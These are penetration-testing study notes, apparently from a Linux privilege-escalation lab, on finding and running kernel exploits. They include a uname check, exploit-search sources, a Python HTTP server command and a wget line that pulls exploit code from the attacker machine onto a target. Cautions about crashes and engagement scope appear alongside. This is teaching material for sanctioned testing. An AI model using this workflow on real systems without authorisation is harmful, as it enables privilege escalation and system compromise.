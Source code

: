 1. Identify the kernel version.
2. Search and find an exploit code for the kernel version of the target system.
3. Run the exploit.

* Failed kernel exploits can lead to a system crash.
  * Ensure this potential outcome is acceptable within the scope of the penetration testing engagement before attempting a kernel exploit.

### **Research sources** <a href="#id-1b5r7mc0u0ol" id="id-1b5r7mc0u0ol"></a>

* Use Google to search for existing exploit code based on enumeration findings.
* [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves) can be useful.
* Use a script like LES (Linux Exploit Suggester).
  * Can generate false positives (report a kernel vulnerability that does not affect the target system).
  * Can generate false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

### **Hints/Notes** <a href="#expj74jdkyot" id="expj74jdkyot"></a>

* Be specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit.
* Understand how the exploit code works BEFORE launching it.
* Some exploit codes can make changes on the OS that would make them insecure in further use or make irreversible changes to the system.
  * This creates problems later.
  * Absolute no-nos during a real penetration testing engagement.
* Some exploits may require further interaction once they are run.
* Read all comments and instructions provided with the exploit code.
* Transfer exploit code from the attacking machine to the target system using the SimpleHTTPServer Python module and wget respectively.

### **Kernel exploit Methodology** <a href="#id-9rr2eo74ezji" id="id-9rr2eo74ezji"></a>

1. Identify the kernel version.

uname -a

1. Find an exploit code for the kernel version of the target system.

* Use[ Exploit Database](https://www.exploit-db.com/) to search for an exploit code.

1. Download the exploit to the attacking machine.
2. Serve the exploit code to the target using SimpleHTTPServer Python module.

python3 -m http.server 9000

1. Use wget on target machine to copy the code across.

wget http://10.10.166.35:9000/37392.c -P /tmp/

* \-P option specifies that the file should be saved to the /tmp/ directory on the target.
  * Specify the path as /tmp/ to avoid the permission error while running wget as a low-level privilege user (karen).

